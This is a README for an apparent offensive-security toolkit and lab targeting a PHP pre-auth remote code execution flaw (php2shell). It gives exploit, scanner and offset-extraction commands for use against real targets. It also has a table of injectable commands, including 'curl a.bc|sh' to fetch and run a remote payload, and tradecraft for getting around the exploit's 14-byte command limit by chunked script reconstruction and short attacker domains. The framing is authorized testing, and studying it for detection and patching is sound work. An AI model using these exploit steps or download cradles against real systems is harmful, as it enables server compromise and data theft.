


<div align="center">



# php2shell

### A realistic lab &amp; toolkit for the PHP *php2shell* pre-auth RCE — **CVE-2026-109618 / 109619**

**Detect it. Blindly prove it. Understand it** — on targets that behave like real servers,<br>not a rigged demo. No shared mounts, no planted files, no LFI.

[](LICENSE)
&nbsp;
&nbsp;
&nbsp;
&nbsp;

_by [**RedSide Security**](https://github.com/RedSideSecurity)_ · questions &amp; bugs → **info@redsidesecurity.com**

</div>

---

## TL;DR

```bash
git clone https://github.com/RedSideSecurity/php2shell
cd php2shell
./run.sh                                   # builds + starts 4 labs on 127.0.0.1:8082-8085

python3 scanner/p2s_scan.py -u http://127.0.0.1:8084/     # detect   -> VULNERABLE
python3 p2s.py -u http://127.0.0.1:8084/ --no-poc         # prove    -> RCE CONFIRMED (blind)
```

Four official PHP versions (8.2 / 8.3 / 8.4 / 8.5), a detection scanner, a **blind**
exploitability verifier that writes nothing, and the per-build offset tooling you
need to carry a test to a real target. No shared folders. No planted files. No LFI.

---

## See it work

A real run against the lab — fingerprint → offsets → confirmed RCE → `/etc/passwd`
read back over HTTP, then the blind timing proof that writes nothing:



Every line in that capture comes straight out of the tooling in this repo. The proof
file is read back over plain HTTP from the container's own `www-data`-owned webroot —
there is no shared folder and nothing was pre-planted.

---

## What is php2shell?

`php2shell` is the nickname for two PHP-core memory-safety flaws disclosed and patched
in October 2026:

- **CVE-2026-109618** — a use-after-free in `zend_hash` array cleanup. During array
  destruction, a destructor can resize the same array, freeing its backing buffer
  while the cleanup loop still walks it. An attacker who reoccupies that freed buffer
  controls a fake `HashTable` whose `pDestructor` is called — turning the bug into
  `system()`. This is the path to **pre-authentication remote code execution**.
- **CVE-2026-109619** — a related instability in the multipart / `session.upload_progress`
  request path, reachable with no application cooperation (no `session_start()` needed).

The bug lives in PHP's request parsing and cleanup — **not** in your application code.
Any mod_php / Apache deployment on an unpatched 8.3 / 8.4 / 8.5 is a candidate.

> **Fixed in** 8.2.35 · 8.3.36 · 8.4.27 · 8.5.12. If you run PHP, patch.

---

## Why this lab is different

Most public "php2shell PoCs" quietly make the target easy so the demo always lands.
They tend to do one or more of these:

| The shortcut others take | Why it's not a real proof |
|---|---|
| **Bind-mount a shared folder** (`-v ./out:/out`) and have the exploit write its proof there | You're reading a file over a Docker volume you control — not over the network from a server you don't. It hides whether the exploit could ever exfiltrate on a real box. |
| **`chmod 777` a world-writable drop dir** baked into the image | Real servers don't ship a world-writable, web-served scratch dir. The "write + read back" only works because the lab pre-arranged it. |
| **Combine the bug with a separate LFI / file-read** to fetch a planted payload | That proves *two* bugs chained in a lab, not that php2shell alone gives you execution. It launders a weak result into a shiny one. |
| **Pre-stage the payload** inside the image, then "trigger" it | The hard part (getting controlled bytes to execute) is skipped; you're firing a starter pistol next to a pre-loaded gun. |

**This lab removes every one of those crutches.** The containers are stock
`php:8.x-apache` images with a realistic config, and the proof comes out of the
**exploit itself**:

- ✅ **No `-v` volume mounts.** Nothing is shared between host and container.
- ✅ **No world-writable dirs.** The webroot is owned by `www-data` with normal
  permissions — exactly like a self-updating CMS — so the one place the exploit can
  write is the same place a real compromised app could.
- ✅ **No LFI, no second bug.** php2shell is the *only* vulnerability in the chain.
- ✅ **No pre-staged payload.** The command is carried by the exploit, live.
- ✅ **Proof travels the way a real one would:** either a **blind sleep-timing**
  signal (the request hangs for `N` seconds — nothing is written at all), or a file
  the exploit drops into the normal webroot and then **reads back over HTTP**.

If it lands here, it lands because the vulnerability actually gives you execution —
not because the lab handed it to you.

---

## Repository layout

```
php2shell/
├── run.sh / stop.sh            build + start / stop the four labs (127.0.0.1 only)
├── php-8.2 .. php-8.5/         one realistic Docker target per PHP minor
│     Dockerfile                stock php:8.x-apache + www-data-owned webroot (no 777, no mount)
│     apache.conf               single-worker prefork (deterministic heap grooming)
│     php2shell.ini             8M memory_limit, upload_progress on — a normal small host
│     index.php / info.php      a plain landing page (+ a diagnostics page)
│
├── scanner/                    DETECT
│     p2s_scan.py               stdlib-only, safe OOM-differential detector (-u / -l / -o)
│
├── p2s.py                      PROVE (one command): fingerprint -> offsets -> blind check -> optional HTTP-readback proof
├── exploit/
│     p2s_verify.py             blind, no-artifact verifier (sleep-timing only)
│     php2shell-dynamic-aslr.patch   host-agnostic ASLR calibration
│     engine/                   low-level UAF chain primitive (third party, MIT — see NOTICE)
│
├── real-vm/                    TAKE IT TO A REAL TARGET
│     offsets_db.json           per-build offset database (keyed by GNU build-id)
│     p2s_target_vars.sh        run on a target: read its offsets out of libphp.so
│     p2s_offtest.sh            run the PoC with offsets from a file / flags / env
│     p2s_offsets.py            offset DB resolve / extract helpers
│     OFFSETS_FROM_TARGET.md    the two real-target workflows, documented
│
└── probe/                      optional 109619 reachability validators
```

---

## The three things you can do

### 1 · Detect — `scanner/p2s_scan.py`

A dependency-free, **non-destructive** detector. It sends a small multipart probe and
reads the in-band out-of-memory differential that the unpatched parser produces; a
patched build answers with a "multipart body parts limit exceeded" message instead.

```bash
python3 scanner/p2s_scan.py -u http://target/                 # one host
python3 scanner/p2s_scan.py -l hosts.txt -o csv > out.csv     # a list
```

Verdicts: `VULNERABLE` (in-band OOM), `POTENTIAL` (ambiguous 500 / banner only),
`SAFE`, `UNKNOWN`, `ERROR`. No exploitation, nothing written.

### 2 · Prove — `p2s.py` / `exploit/p2s_verify.py`

`p2s.py` is the one-command driver: it fingerprints the PHP version, pulls the matching
offsets from the database (sweeping the heap-layout constant), runs a **blind** check,
and only then (optionally) drops a readable proof file and fetches it back over HTTP.

```bash
python3 p2s.py -u http://target/ --no-poc        # blind only — writes NOTHING
python3 p2s.py -u http://target/                 # + HTTP-readback proof (overt)
```

The blind verifier on its own, for engagements where you want a pure yes/no and zero
footprint:

```bash
python3 exploit/p2s_verify.py -u http://target/ --sleep 8
# -> "RCE CONFIRMED: command executed (request delayed ~8s)"
```

It runs `sleep N` (7 bytes — see the 14-byte note below) through the chain and times
the response. A normal request returns in well under a second; if the destructor ran,
the response is delayed ~N seconds. **That delay is the proof. Nothing is written,
nothing is exfiltrated.**

### 3 · Take it to a real target — `real-vm/`

The exploit needs three per-build constants. Two (`zif`, `dtor`) are symbol offsets
inside the target's `libphp.so`; the third (`htdata`) is keyed to the PHP minor. All
three can be read straight out of a copy of the target's own module:

```bash
# easiest: you have the target's libphp.so on your box
./real-vm/p2s_offtest.sh -u http://target/ --libphp /path/to/libphp.so

# or only a shell on the target: extract there, carry the numbers over
./real-vm/p2s_target_vars.sh --env > vars.env
./real-vm/p2s_offtest.sh -u http://target/ --env vars.env
```

What you **cannot** pre-compute — and what the exploit leaks live each run — are the two
ASLR bases (where the heap and `libphp.so` are mapped this request). See
[`real-vm/OFFSETS_FROM_TARGET.md`](real-vm/OFFSETS_FROM_TARGET.md).

> ⚠️ **`p2s_target_vars.sh` reads the machine it runs on.** On a real engagement you run
> it *on the target* (or point it at a copy of the target's `libphp.so`). Run it on your
> own laptop and it reads *your* PHP, not the target's.

**Want to try the offset tooling against the lab?** The lab targets are containers, so
copy one's module out first, then drive the PoC from it:

```bash
docker cp php2shell-8.4:/usr/lib/apache2/modules/libphp.so ./libphp-8.4.so
./real-vm/p2s_offtest.sh -u http://127.0.0.1:8084/ --libphp ./libphp-8.4.so
```

---

## Why it's hard to exploit (and why that matters)

php2shell is a real pre-auth RCE, but it is **not** a push-button worm. To fire it you
must line up, at the same instant:

- **Exact per-build offsets** — tied to one `libphp.so`; a different patch level, distro
  or compiler changes the numbers, and a wrong guess crashes the worker.
- **Two live info-leaks** — ASLR randomizes the heap and code bases every request; you
  have to steal both before you can aim anything.
- **A groomed heap** — the free-and-refill race only wins when memory is in the expected
  shape (ideally a single worker); real traffic perturbs it.

Miss any one and you get a segfault, not a shell. The bug is universal; the parameters
are bespoke — which is exactly why realistic labs matter, and why a lab that mounts a
shared folder tells you nothing about a real target.

### The 14-byte command

The command rides inside a fixed **167-byte** heap object alongside a forged `HashTable`,
`execute_data`, and string header. The command field is just the tail: `167 − 152 − 1`
(NUL) = **14 bytes**. It is a structural limit, not a configurable one — see
[Living inside 14 bytes](#living-inside-14-bytes) for what you can actually do with it.

---

## What the PoC does, and why `sleep` and `cat /e*/p*`

The driver (`p2s.py`) defaults to two commands, each chosen on purpose.

**`sleep 8` — the blind proof (default for `p2s_verify.py`).**
It is the *safest possible* demonstration of code execution:

- It **writes nothing, sends nothing, reads nothing** — it only makes the HTTP
  response hang. A normal request returns in well under a second; if the destructor
  actually ran, the response is delayed ~8 seconds. That timing gap is an
  **unforgeable** signal that your code executed.
- It leaves **zero artifacts** on the target — no dropped file, no network egress, no
  log of exfiltrated data. Exactly what you want when all you're authorized to do is
  answer *"is this box exploitable, yes or no?"*
- At 7 bytes it sits comfortably inside the 14-byte limit.

**`cat /e*/p*` — the tangible proof (default for `p2s.py`).**
When you need something to put in a report or a screenshot, reading a file the attacker
should never see is the classic low-impact demonstration:

- `/etc/passwd` is present on every Linux host and contains **no secrets** (no password
  hashes), so it's a safe, universal "I can read server files" proof.
- Writing the path literally is too long: `cat /etc/passwd>poc` is 19 bytes. The
  **glob trick** `/e*/p*` expands to `/etc/passwd` (and `/etc/profile`, `/etc/pam.conf`)
  on the shell, collapsing the command to `cat /e*/p*>poc` — exactly **14 bytes**.
- The output lands in a `poc` file in the server's normal `www-data`-owned webroot and
  is **read back over HTTP** — proving a real exfiltration path with **no shared mount
  and nothing pre-staged**. (That's the whole point of the lab being realistic.)

So: `sleep` proves execution with no footprint; `cat /e*/p*` proves file access with a
minimal, overt, readable-over-HTTP footprint. Neither needs an LFI or a volume mount.

---

## Living inside 14 bytes

14 bytes feels tiny, but it is plenty — because a short command can *start* something
much larger. The whole command (including any `>`/`<` redirection) must be ≤14 bytes:

| Command | Bytes | What it does | Footprint |
|---|---:|---|---|
| `sleep 8` | 7 | hang the response 8s — pure timing proof | **none** (writes nothing) |
| `id>poc` | 6 | `uid=33(www-data)` → webroot, read over HTTP | 1 file |
| `pwd>>poc` | 8 | current directory (appends) | file |
| `ls>poc` | 6 | list the webroot | file |
| `env>poc` | 7 | process environment | file |
| `uname>poc` | 9 | kernel / arch string | file |
| `cat /e*/p*>poc` | 14 | `/etc/passwd` via glob → webroot | file |
| `sh<c` | 4 | **run an arbitrarily long script** staged as `./c` | depends on `c` |
| `curl a.bc\|sh` | 12 | fetch + run a remote payload (short domain you own) | network egress |

The last two rows are the escape hatch: once you can run **4 bytes** (`sh<c`), the real
limit is gone — that 4-byte loader executes a staged script of any length.

### Theoretically: beating the limit entirely

The 14-byte cap bounds a *single* command, not what you can ultimately run. Two paths
get you to arbitrary-length execution:

- **Rebuild a file on the target, a few bytes at a time.** Each shot appends a fragment
  with `>>`, e.g. `echo AB>>c` (10 bytes) writes two bytes into `c`. Across many
  requests you reconstruct an arbitrary-length script in the webroot, then run it with
  the 4-byte loader `sh<c`. No network, no second bug — just patience. (A 14-byte
  window can't hold a routable IP **and** a port, which is exactly why a *direct*
  network callback doesn't fit — reconstruction sidesteps that.)
- **Pull it over the network with a short domain you own.** `curl a.bc|sh` (12 bytes)
  fits when the domain is ≤6 characters (`curl ` = 5, `|sh` = 3, leaving 6). Point a
  cheap short domain at your payload server and the loader fetches and runs a script of
  any size. `wget`/`fetch` variants work the same way where present. The constraint
  isn't the exploit — it's owning a short enough name so the whole cradle stays ≤14 B.

In other words, 14 bytes is a speed bump, not a wall: it shapes the tradecraft (globs,
short loaders, short domains, chunked reconstruction) without ever removing the
capability. This repo ships only the restrained defaults (`sleep`, `cat /e*/p*`,
`sh<PATH`); the rest is documented here so defenders understand what the limit does and
doesn't buy them.

---

## Verified results

Tested against this lab (localhost, official images):

| PHP build | Scanner | Offsets from `libphp.so` | Blind RCE |
|---|---|---|---|
| 8.2.34 | VULNERABLE | zif `0x39b8a0` · dtor `0x487650` | not exploitable by this chain |
| 8.3.35 | VULNERABLE | zif `0x3ac080` · dtor `0x49ec50` · htd `0x6A0D8` | ✅ confirmed |
| 8.4.26 | VULNERABLE | zif `0x465370` · dtor `0x65eb60` · htd `0x690D8` | ✅ confirmed |
| 8.5.11 | VULNERABLE | zif `0x5996e0` · dtor `0x7b47a0` · htd `0x690D8` | ✅ confirmed |

8.2 is flagged by the scanner (the parser OOMs) but is not exploitable by this specific
destructor chain.

---

## Requirements

- Docker (first `run.sh` pulls the official `php:8.x-apache` images — needs internet once)
- Python 3 (standard library only; no pip packages)

The labs bind to `127.0.0.1` only. Stop them with `./stop.sh`.

---

## Responsible use

This toolkit is for **authorized** work only: your own lab, a system you own, or an
engagement with written permission. php2shell is a patched CVE — the single most
effective control is to **update PHP**. The default proof methods here are deliberately
restrained (non-destructive scan, blind timing, overt webroot read-back) precisely so
they can be used in a real assessment without covert staging or data exfiltration.

Don't point any of this at systems you don't have permission to test.

---

## Status & feedback

🚧 **This project is under active development.** Things may change, and rough edges are
expected. If you hit a bug, a broken command, or something that's unclear — or you land
the PoC on a build that isn't in the offset database — we'd genuinely like to hear about
it: **[info@redsidesecurity.com](mailto:info@redsidesecurity.com)**. Please include the
PHP version/build, your OS, and the exact command and output.

---

## License

MIT — see [LICENSE](LICENSE). Third-party components and their licenses are listed in
[NOTICE](NOTICE).
